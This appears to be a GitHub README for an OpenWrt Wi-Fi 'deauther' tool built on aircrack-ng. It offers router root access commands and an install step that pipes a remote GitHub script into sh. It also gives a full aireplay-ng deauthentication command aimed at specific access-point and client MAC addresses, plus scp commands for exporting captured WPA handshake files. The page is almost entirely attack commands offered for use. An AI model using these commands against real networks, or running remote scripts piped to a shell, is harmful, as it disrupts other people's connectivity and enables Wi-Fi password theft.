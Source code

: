 # openwrt deauther based on airplay-ng
- Functions similar on kali
- Also it can capture WPA Handshakes

## Root access 
```sh
ssh root@192.168.1.1
```
```sh
telnet 192.168.1.1
```

## Auto install 
```sh

opkg update && opkg install curl && curl https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/install.sh | sh
````
## sample commands
> More info
 - aireplay-ng --help
 - airodump-ng --help
 - aircrack-ng --help

`
aireplay-ng mon0 --deauth 20 -a 32:AA:E4:18:90:45 -c CC:73:14:5D:59:FF --ignore-negative-one
`

## Export handshake or files from openwrt to local storage
- Termux Terminal 
```sh
scp root@192.168.1.1:*.cap storage/downloads
```
- Kali terminal 
```sh
scp root@192.168.1.1:*.cap /home/*/Downloads
```

> [Hint!]
 - *.cap - export any name with .cap file format
